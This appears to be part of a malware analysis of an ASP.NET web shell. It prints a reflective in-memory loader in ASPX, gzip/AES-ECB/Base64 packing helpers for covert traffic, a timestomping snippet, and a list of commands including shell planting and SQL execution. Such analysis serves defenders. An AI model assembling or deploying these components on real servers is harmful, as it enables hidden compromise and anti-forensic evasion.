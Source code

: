 ```aspx
            // 2) Invoke the managed entry point (e.g., ServerRun.Run)
            var t = asm.GetType("ServerRun");
            var m = t.GetMethod("Run", BindingFlags.Public|BindingFlags.NonPublic|BindingFlags.Static|BindingFlags.Instance);
            object inst = m.IsStatic ? null : Activator.CreateInstance(t);
            m.Invoke(inst, new object[]{ HttpContext.Current });
        }
    }
}
</script>
```

Packing/crypto helpers (Gzip + AES‑ECB + Base64)
```csharp
using System.Security.Cryptography;

static byte[] AesEcb(byte[] data, byte[] key, bool encrypt){
    using(var aes = Aes.Create()){
        aes.Mode = CipherMode.ECB; aes.Padding = PaddingMode.PKCS7; aes.Key = key;
        ICryptoTransform t = encrypt ? aes.CreateEncryptor() : aes.CreateDecryptor();
        return t.TransformFinalBlock(data, 0, data.Length);
    }
}

static string Pack(object obj, byte[] key){
    // serialize → gzip → AES‑ECB → Base64
    byte[] raw = Serialize(obj);                    // your TLV/JSON/msgpack
    using var ms = new MemoryStream();
    using(var gz = new GZipStream(ms, CompressionLevel.Optimal, true)) gz.Write(raw, 0, raw.Length);
    byte[] enc = AesEcb(ms.ToArray(), key, true);
    return Convert.ToBase64String(enc);
}

static T Unpack<T>(string b64, byte[] key){
    byte[] enc = Convert.FromBase64String(b64);
    byte[] cmp = AesEcb(enc, key, false);
    using var gz = new GZipStream(new MemoryStream(cmp), CompressionMode.Decompress);
    using var outMs = new MemoryStream(); gz.CopyTo(outMs);
    return Deserialize<T>(outMs.ToArray());
}
```

Cookie/session flow and command surface
- Session bootstrap and tasking are carried via cookies to blend with normal web activity.
- Commands observed in the wild included: fileExist, listDir, createDir, renameDir, fileRead, deleteFile, createFile, changeLastModified; addshell, bypassPrecompiledApp, listShell, removeShell; executeSQLQuery, ExecuteNonQuery; and dynamic execution primitives code_self, code_pid, run_code for in‑memory .NET execution.

Timestomping utility
```csharp
File.SetCreationTime(path, ts); 
File.SetLastWriteTime(path, ts);
File.SetLastAccessTime(path, ts);
```
